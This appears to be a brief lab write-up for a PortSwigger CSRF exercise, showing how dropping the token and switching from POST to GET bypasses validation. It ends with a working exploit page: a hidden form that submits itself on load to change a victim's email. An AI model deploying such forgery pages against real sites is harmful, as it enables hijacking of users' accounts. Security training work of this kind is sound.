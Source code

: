 [PortSwigger Lab](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)

---
Here is the original `POST` form
```http
POST /my-account/change-email HTTP/2
Host: 0aa80094032cd3c182eaca1e00f900cb.web-security-academy.net
Cookie: session=3gnYrzsvBwrM3gqW7Fepd70A06rQD8C6
Content-Type: application/x-www-form-urlencoded

email=kiss%40love.you&csrf=tfqsnH6zPdkBxeaEBjYEdlaF0tejnqQv
```

Let's try with `GET` now

```http
GET /my-account/change-email?email=kiss%40love.her HTTP/2
Host: 0aa80094032cd3c182eaca1e00f900cb.web-security-academy.net
Cookie: session=3gnYrzsvBwrM3gqW7Fepd70A06rQD8C6
Content-Type: application/x-www-form-urlencoded
```

And it worked so my crafted page should be like

```html
<form action="https://0aa80094032cd3c182eaca1e00f900cb.web-security-academy.net/my-account/change-email" method="GET">
	<input type="hidden" name="email" value="kiss@you.love">
</form>
<script>
	document.forms[0].submit()
</script>
```